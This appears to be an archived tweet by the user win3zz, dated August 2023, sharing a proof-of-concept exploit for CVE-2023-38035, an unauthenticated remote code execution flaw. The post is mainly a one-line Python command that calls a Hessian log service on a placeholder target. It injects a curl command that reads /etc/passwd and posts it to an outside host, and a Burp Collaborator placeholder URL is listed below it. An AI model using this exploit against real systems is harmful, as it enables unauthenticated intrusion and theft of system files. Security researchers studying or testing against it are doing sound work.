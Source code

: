 # win3zz
**https://twitter.com/win3zz/status/1696779640457834545 _at 2023-08-30, 06:59:25_**
<blockquote>
CVE-2023-38035 - Unauth. RCE

PoC: 👇
python3 -c "from pyhessian.client import HessianProxy as H; H('https://TARGET-DOMAIN:8443/mics/services/MICSLogService').uploadFileUsingFileInput({'command': 'curl -X POST -d @/etc/passwd https://t.co/ZhRonPoqrv', 'isRoot': True}, None)" https://t.co/OkkkK2Vn8H
</blockquote>

* http://BURP-COLLABORATOR-URL.com

<table><tr>
<td><img src="pictures/9a0413d42fe30d275f65f86c3df7e986a185e06a3fdee5538f1e7577e0ee25f4.jpg" alt="9a0413d42fe30d275f65f86c3df7e986a185e06a3fdee5538f1e7577e0ee25f4.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>74</code></td>
<td>Favorites: <code>228</code></td>
</tr></table>

---